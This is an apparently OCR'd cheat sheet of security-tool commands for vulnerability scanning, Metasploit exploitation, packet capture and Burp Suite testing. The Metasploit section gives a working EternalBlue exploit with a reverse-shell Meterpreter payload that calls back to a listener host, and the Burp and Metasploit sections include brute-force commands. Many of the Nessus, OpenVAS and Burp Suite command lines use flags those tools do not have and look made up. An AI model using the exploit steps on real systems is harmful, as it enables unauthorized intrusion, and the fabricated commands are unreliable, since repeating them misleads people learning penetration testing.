 1. Vulnerability Scanning with Nessus
Nessus is one of the most widely used commercial vulnerability scanning tools.

Example Commands:

Start a scan from the command line:

''nessus -q -T html -o /output/scan_report.html -i /path/to/scan_config.nessus''

Explanation: This command runs Nessus using the specified configuration file and outputs the results in HTML format.

-Target a specific IP address:
''nessus -q -T html -o /output/report.html -i /path/to/scan.nessus --targets 192.168.1.1''

Explanation: This command targets the specified IP address for scanning.

-Perform a custom port scan:
''nessus -q -T html -o /output/custom_ports_report.html --ports 80,443,8080''

Explanation: This command limits the scan to ports 80, 443, and 8080 only.

-Scan for specific CVEs:
''nessus -q -T html -o /output/cve_scan_report.html --cve 2017-0143, 2018-8174''

Explanation: This command scans for the specified CVE vulnerabilities.

-Use a specific scan policy:
''nessus -q -T html -o /output/policy_scan_report.html --policy "Critical Scan Policy" ''

Explanation: This command uses a custom scan policy named "Critical Scan Policy" to perform the scan.

2. Vulnerability Scanning with OpenVAS
OpenVAS is an open-source alternative to Nessus, capable of detecting vulnerabilities in systems and applications.

Example Commands:
-Start a scan:

openvas-start

openvas-cli --scan --target 192.168.1.1 --profile "Full and Fast" --output /output/openvas_report.html

Explanation: This starts the OpenVAS service and initiates a scan with the "Full and Fast" profile for the target IP.

-Scan specific ports:

openvas-cli --scan --target 192.168.1.1 --ports 22,80,443 --profile "Full and Fast"

Explanation: This command targets ports 22, 80, and 443 for scanning.

-Run a scan on a specific target:

openvas-cli --target 192.168.1.1 --scan --profile "Full and Fast" --output /output/target_scan.html

Explanation: This command scans a specific target using the "Full and Fast" profile.

-Scan for high-severity vulnerabilities only:

openvas-cli --scan --target 192.168.1.1 --severity High --output /output/high_risk_report.html

Explanation: This command scans only for high-severity vulnerabilities.

-Scan for specific CVE:

openvas-cli --scan --target 192.168.1.1 --cve "CVE-2017-0143" --output /output/cve_specific_scan.html


Explanation: This command scans for a specific CVE vulnerability.

3. Penetration Testing with Metasploit
Metasploit is a widely-used penetration testing framework that allows attackers to simulate real-world attacks.

Example Commands:

-Start Metasploit console:

msfconsole

Explanation: This command opens the Metasploit console.

-Exploit a specific vulnerability:

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.1
set RPORT 445
exploit

Explanation: This exploits the MS17-010 vulnerability (EternalBlue) against the target IP.

-Set a payload for reverse shell:

set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit

Explanation: This sets up a reverse TCP Meterpreter payload on the target system.

-Use an auxiliary scanner for port scanning:

use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.1
set THREADS 10
run


Explanation: This runs a TCP port scan on the target IP.

-Scan for directory and file brute-force:

use auxiliary/scanner/http/dir_scanner
set RHOSTS 192.168.1.1
set DIRLIST /path/to/wordlist.txt
run


Explanation: This uses Metasploit’s auxiliary module to perform directory brute-forcing on a web server.

4. Network Traffic Analysis with Wireshark
Wireshark is the most widely used tool for analyzing network traffic and identifying potential security threats.

Example Commands:

-Capture packets on a specific interface:

tshark -i eth0 -w /output/network_traffic.pcap

Explanation: This command captures all traffic on interface eth0 and saves it to a .pcap file.

-Filter HTTP traffic:

tshark -i eth0 -f "tcp port 80" -w /output/http_traffic.pcap

Explanation: This command captures only HTTP traffic (port 80) on the network interface.

-Filter traffic from a specific IP address:

tshark -i eth0 -f "host 192.168.1.1" -w /output/ip_traffic.pcap

Explanation: This command filters and captures only traffic from the IP address 192.168.1.1.

-Get network traffic statistics:

tshark -z io,stat,0

Explanation: This command provides statistical analysis of the captured network traffic.

Capture only UDP packets:

tshark -i eth0 -f "udp" -w /output/udp_traffic.pcap

Explanation: This command captures only UDP traffic.

5. Web Application Security Testing with Burp Suite
Burp Suite is a comprehensive platform used for testing the security of web applications, identifying vulnerabilities, and performing active scanning.

Example Commands:

-Start Burp Suite with a proxy:

burpsuite --proxy 127.0.0.1:8080

Explanation: This command starts Burp Suite with a proxy listening on localhost (127.0.0.1) at port 8080.

Initiate an active scan on a web application:

burpsuite --crawl http://targetsite.com --scan --output /output/burp_scan_report.html

Explanation: This command crawls the web application at the specified URL and performs an active scan.

-Use Intruder to perform brute force attacks:

burpsuite --intruder --target http://targetsite.com/login --payloads /path/to/wordlist.txt --attack-type brute-force
Explanation: This runs a brute force attack on a login page using a specified wordlist.

Spider the target to discover hidden resources:

burpsuite --spider http://targetsite.com --depth 5 --output /output/spider_report.html

Explanation: This command uses Burp Suite's Spider tool to discover all the resources and links within a web application.

Scan a web application for vulnerabilities:

burpsuite --scanner --target http://targetsite.com --output /output/vulnerability_report.html

Explanation: This command runs an automated scan on a target web application to identify vulnerabilities.



"Please remember that these actions should only be performed with proper authorization. Any unauthorized use is entirely your responsibility."




